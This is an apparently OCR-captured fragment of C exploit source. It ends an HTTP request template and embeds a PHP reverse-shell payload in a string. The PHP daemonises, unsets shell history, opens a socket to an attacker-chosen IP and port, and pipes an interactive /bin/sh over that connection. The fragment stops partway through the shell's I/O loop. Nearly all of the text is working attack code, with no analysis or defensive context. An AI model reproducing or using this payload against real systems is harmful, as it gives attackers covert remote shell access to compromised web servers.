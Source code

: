 >  "Connection: close\r\n\r\n%s";
> char phpstr[] = "<?php\n"
> "set_time_limit(0);\n"
> "$ip = '%s';\n"
> "$port = %d;\n"
> "$chunk_size = 1400;\n"
> "$write_a = null;\n"
> "$error_a = null;\n"
> "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"
> "$daemon = 0;\n"
> "$debug = 0;\n"
> "if (function_exists('pcntl_fork')) {\n"
> "  $pid = pcntl_fork();    \n"
> "  if ($pid == -1) {\n"
> "      printit(\"ERROR: Can't fork\");\n"
> "      exit(1);\n"
> "  }\n"
> "  if ($pid) {\n"
> "      exit(0);\n"
> "  }\n"
> "  if (posix_setsid() == -1) {\n"
> "      printit(\"Error: Can't setsid()\");\n"
> "      exit(1);\n"
> "  }\n"
> "  $daemon = 1;\n"
> "} else {\n"
> "  printit(\"WARNING: Failed to daemonise.\");\n"
> "}\n"
> "chdir(\"/\");\n"
> "umask(0);\n"
> "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"
> "if (!$sock) {\n"
> "  printit(\"$errstr ($errno)\");\n"
> "  exit(1);\n"
> "}\n"
> "$descriptorspec = array(\n"
> "   0 => array(\"pipe\", \"r\"),\n"
> "   1 => array(\"pipe\", \"w\"),\n"
> "   2 => array(\"pipe\", \"w\")\n"
> ");\n"
> "$process = proc_open($shell, $descriptorspec, $pipes);\n"
> "if (!is_resource($process)) {\n"
> "  printit(\"ERROR: Can't spawn shell\");\n"
> "  exit(1);\n"
> "}\n"
> "stream_set_blocking($pipes[0], 0);\n"
> "stream_set_blocking($pipes[1], 0);\n"
> "stream_set_blocking($pipes[2], 0);\n"
> "stream_set_blocking($sock, 0);\n"
> "while (1) {\n"
> "  if (feof($sock)) {\n"
> "      printit(\"ERROR: Shell connection terminated\");\n"
> "      break;\n"
> "  }\n"
> "  if (feof($pipes[1])) {\n"
> "      printit(\"ERROR: Shell process terminated\");\n"
> "      break;\n"
> "  }\n"
> "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"
> "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"
> "  if (in_array($sock, $read_a)) {\n"
> "      if ($debug) printit(\"SOCK READ\");\n"
> "      $input = fread($sock, $chunk_size);\n"
> "      if ($debug) printit(\"SOCK: $input\");\n"